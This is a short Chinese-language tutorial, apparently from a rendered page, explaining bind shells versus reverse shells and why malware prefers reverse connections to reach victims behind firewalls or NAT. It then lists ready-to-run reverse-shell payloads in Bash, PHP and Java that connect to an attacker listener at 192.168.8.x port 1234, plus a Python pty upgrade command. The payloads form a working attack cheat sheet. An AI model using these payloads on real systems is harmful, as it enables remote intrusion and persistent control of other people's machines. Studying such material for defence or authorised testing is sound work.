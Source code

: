 ### 正向连接

- 目标主机具有公网IP地址，能够被外网直接访问。
- 此时攻击者可以直接访问目标机器，这种连接方式叫做正向连接。
- 我们只需要在目标机器开启shell监听，然后攻击机器直接访问即可。

**正向连接目标的缺点：**

1.某客户机中了你的网马，但是它在局域网内，你直接连接不了。它的ip会动态改变，你不能持续控制。

2.由于防火墙等限制，对方机器只能发送请求，不能接收请求。

3.对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机，都是未知，所以建立一个服务端，让恶意程序主动连接，才是上策。

### 反弹shell

- 目标主机处于内网环境下,不可以被外网直接访问,只能主动将shell反弹出来，这种方式称作反弹shell
- 反弹shell（reverse shell），就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端,本质上是网络概念的客户端与服务端的角色反转。

成功反弹shell后，如果目标服务器有python，那么就能通过该命令获得**交互式shell**

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### **常用payload**

BASH:

```
bash -i >& /dev/tcp/192.168.8.10/1234 0>&1
```

PHP:

```
<?php $sock=fsockopen("192.168.8.13",1234);exec("/bin/bash -i <&3 >&3 2>&3"); ?>
```

JAVA:

```
public class Revs {
  /**
  \* @param args
  \* @throws Exception 
  */

public static void main(String[] args) throws Exception {
	// TODO Auto-generated method stub
    Runtime r = Runtime.getRuntime();
    String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.8.13/1234;cat <&5 | while read line; do $line 2>&5 >&5; done"};
    Process p = r.exec(cmd);
    p.waitFor();
  }
}
编译：
javac Revs.java 
java Revs
```
